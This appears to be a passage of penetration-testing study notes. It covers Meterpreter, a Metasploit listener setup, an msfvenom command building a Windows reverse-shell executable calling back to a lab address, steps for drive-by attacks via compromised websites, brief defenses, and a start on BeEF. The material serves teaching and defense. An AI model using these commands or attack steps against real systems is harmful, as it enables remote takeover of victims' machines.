 ### Meterpreter Highlights

* Modular post-exploitation shell
* Operates entirely in memory (stealthy)
* TLS-encrypted communication
* Can migrate to other processes

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit
```

### Payload Creation with MsfVenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe -o shell.exe
```

---

## Drive-By and Client-Side Attacks

### Drive-By Strategy

1. Compromise legitimate website
2. Insert malicious JavaScript or redirect
3. Deliver tailored exploit to visitors

### Variants

* Watering hole: Target industry-specific sites
* Fake installers: Repackaged software with embedded payloads
* Office macros: Embedded code requiring user interaction

### Defenses

* Patch management
* Threat intel and IOC monitoring
* Use allowlists, behavior-based detection, EDR/XDR

---

## BeEF and Social Engineering Payloads

### BeEF Framework

* Browser Exploitation Framework
* Exploits active browser sessions
